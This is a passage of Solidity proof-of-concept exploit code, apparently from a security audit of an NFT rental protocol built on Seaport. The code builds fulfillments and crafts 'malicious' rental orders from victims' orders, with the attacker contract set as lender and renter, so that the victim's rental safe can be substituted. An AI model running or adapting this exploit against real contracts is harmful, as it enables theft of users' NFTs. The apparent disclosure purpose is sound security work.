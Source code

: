 ```solidity

            offerCompERC721[0] = FulfillmentComponent({orderIndex: 0, itemIndex: 0});
            considCompERC721[0] = FulfillmentComponent({orderIndex: 1, itemIndex: 0});

            FulfillmentComponent[] memory offerCompERC20 = new FulfillmentComponent[](1);
            FulfillmentComponent[] memory considCompERC20 = new FulfillmentComponent[](1);

            offerCompERC20[0] = FulfillmentComponent({orderIndex: 0, itemIndex: 1});
            considCompERC20[0] = FulfillmentComponent({orderIndex: 1, itemIndex: 1});

            Fulfillment memory fulfillmentERC721 = Fulfillment({offerComponents: offerCompERC721, considerationComponents: considCompERC721});
            Fulfillment memory fulfillmentERC20 = Fulfillment({offerComponents: offerCompERC20, considerationComponents: considCompERC20});
            
            // store Fulfillment[] in attackerContract for later use
            attackerContract.storeFulfillment(fulfillmentERC721, fulfillmentERC20);
        }

        // ------ loop through victimRentalOrders to create our complimentary, malicious rentalOrders ------ //

        // pre-compute `RentalOrder` for our new rental orders
        // compute ZoneParameters.orderHash (this is the orderHash for our PAY order)
        RentalOrder[] memory rentalOrders = new RentalOrder[](victimRentalOrders.length);

        for (uint256 i; i < victimRentalOrders.length; i++) {
            Item memory victimItem = victimRentalOrders[i].items[0];
            ItemType itemType;
            if (victimItem.itemType == reNFTItemType.ERC721) {
                itemType = ItemType.ERC721;
            }
            if (victimItem.itemType == reNFTItemType.ERC1155) {
                itemType = ItemType.ERC1155;
            }

            bytes32 orderHash = seaport.getOrderHash(OrderParametersLib.toOrderComponents(
                attackerContract.getPayOrderParamsToHash(itemType, victimItem.token, victimItem.identifier, victimItem.amount), 0)
            );

            // construct the malicious rental order
            Item[] memory items = new Item[](2);
            items[0] = Item(victimItem.itemType, SettleTo.LENDER, victimItem.token, victimItem.amount, victimItem.identifier);
            items[1] = Item(reNFTItemType.ERC20, SettleTo.RENTER, address(erc20s[0]), uint256(1), uint256(0)); // the same for every malicious order

            RentalOrder memory rentalOrder = RentalOrder({
                seaportOrderHash: orderHash,
                items: items, // only PAY order offer items are added in storage
                hooks: metadata.hooks,
                orderType: OrderType.PAY, // only PAY order is added in storage
                lender: address(attackerContract),
                renter: address(attackerContract),
                rentalWallet: attackerSafe,
                startTimestamp: block.timestamp,
                endTimestamp: block.timestamp + metadata.rentDuration // note: rentDuration does not matter
            });

            // set `rentalOrder.rentalWallet` (currently equal to our attackerContract's safe) to be equal to the victim's safe
```